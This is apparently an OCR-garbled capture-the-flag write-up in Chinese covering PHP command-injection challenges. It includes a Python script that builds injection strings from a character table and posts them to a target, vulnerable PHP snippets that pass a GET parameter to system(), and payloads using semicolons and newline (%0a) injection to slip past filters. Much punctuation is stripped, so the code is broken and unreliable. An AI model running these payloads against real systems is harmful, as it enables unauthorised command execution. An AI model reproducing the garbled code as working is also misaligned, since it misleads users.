    s2=
   for i in arg
       f=open(rce_or.txt,r)
       while True
           t=f.readline()
           if t==
               break
           if t[0]==i
               #print(i)
               s1+=t[25]
               s2+=t[69]
               break
       f.close()
   output=(+s1++s2+)
   return(output)

while True
   param=action(input(n[+] your function：) )+action(input([+] your command：))
   data={
       'c'urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print(n[] resultn+r.text)
httpsblog.csdn.netmiuzzxarticledetails108569080

web42~devnull无过滤
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c. devnull 2&1);
}else{
    highlight_file(__FILE__);
} 
payload

c=ls;
c=cat flag.php;
web43~devnull过滤分号cat
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;cati, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
过滤分号和cat使用 换行符%0a

c=ls%0a
c=tac flag.php%0a
说一下为啥system()函数要用的分号或者截断，因为不用的话输入的语句就和后边的devnull 2&1拼接起来了。最后不关输入啥都会把结果输出到devnull。
